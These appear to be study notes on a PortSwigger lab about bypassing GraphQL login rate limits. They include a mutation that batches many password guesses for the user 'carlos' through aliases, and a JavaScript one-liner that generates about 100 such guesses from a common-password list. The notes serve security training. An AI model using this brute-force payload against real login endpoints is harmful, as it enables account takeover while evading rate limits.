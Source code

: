 • In Repeater, attempt some further login requests. Note that after a short period of time the API starts to return a rate limit error. 

From <https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass> 


Craft a request that uses aliases to send multiple login mutations in one message. See the lab instructions for a tip that will make this process less time-consuming. 

From <https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass> 



  ```
mutation {
        bruteforce0:login(input:{password: "123456", username: "carlos"}) {
              token
              success
          }

          bruteforce1:login(input:{password: "password", username: "carlos"}) {
              token
              success
          }

    ...
```

 ```
bruteforce99:login(input:{password: "12345678", username: "carlos"}) {
              token
              success
          }
    }
```

You can then use the generated aliases when crafting your request in Repeater. 

From <https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass> 




To get our wordlist we use the following given to us by burpesuite 

```
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>` bruteforce$index:login(input:{password: "$password", username: "carlos"}) { token success } `.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
``` 
